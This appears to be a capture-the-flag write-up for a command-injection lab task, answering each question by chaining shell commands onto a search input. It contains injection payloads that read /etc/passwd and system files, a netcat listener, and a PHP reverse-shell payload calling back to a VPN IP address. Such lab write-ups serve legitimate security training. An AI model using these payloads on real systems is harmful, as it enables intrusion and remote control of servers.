 # Task 5

### What strange text file is in the website root directory? <a href="#what-strange-text-file-is-in-the-website-root-directory" id="what-strange-text-file-is-in-the-website-root-directory"></a>

```
test; ls
```

#### Answer <a href="#answer" id="answer"></a>

drpepper.txt

### How many non-root/non-service/non-daemon users are there? <a href="#how-many-non-rootnon-servicenon-daemon-users-are-there" id="how-many-non-rootnon-servicenon-daemon-users-are-there"></a>

```
test; cat /etc/passwd
```

#### Answer <a href="#answer-1" id="answer-1"></a>

0

### What user is this app running as? <a href="#what-user-is-this-app-running-as" id="what-user-is-this-app-running-as"></a>

```
test; whoami
```

#### Answer <a href="#answer-2" id="answer-2"></a>

www-data

### What is the user's shell set as? <a href="#what-is-the-users-shell-set-as" id="what-is-the-users-shell-set-as"></a>

```
test; cat /etc/passwd |grep www-data
```

#### Answer <a href="#answer-3" id="answer-3"></a>

/usr/sbin/nologin

### What version of Ubuntu is running? <a href="#what-version-of-ubuntu-is-running" id="what-version-of-ubuntu-is-running"></a>

```
test ; cat /etc/os-release

or 

test ; lsb_release -a
```

#### Answer <a href="#answer-4" id="answer-4"></a>

18.04.4

### Print out the MOTD. What favorite beverage is shown? <a href="#print-out-the-motd-what-favorite-beverage-is-shown" id="print-out-the-motd-what-favorite-beverage-is-shown"></a>

```
test ; locate 00-header
test ; cat /etc/update-motd.d/00-header 
```

#### Answer <a href="#answer-5" id="answer-5"></a>

Dr Pepper

## EXTRA <a href="#extra" id="extra"></a>

### Spawn remote shell in that machine <a href="#spawn-remote-shell-in-that-machine" id="spawn-remote-shell-in-that-machine"></a>

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

1. On your machine

* Open a localport on your machine

```
nc -lvnp 9001
```

1. On vulnerable webpage

* Spawn this remote shell in the search input.

Replace `10.18.1.159` with your own VPN IP

```
test; php -r '$sock=fsockopen("10.18.1.159",9001);`sh <&3 >&3 2>&3`;'
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
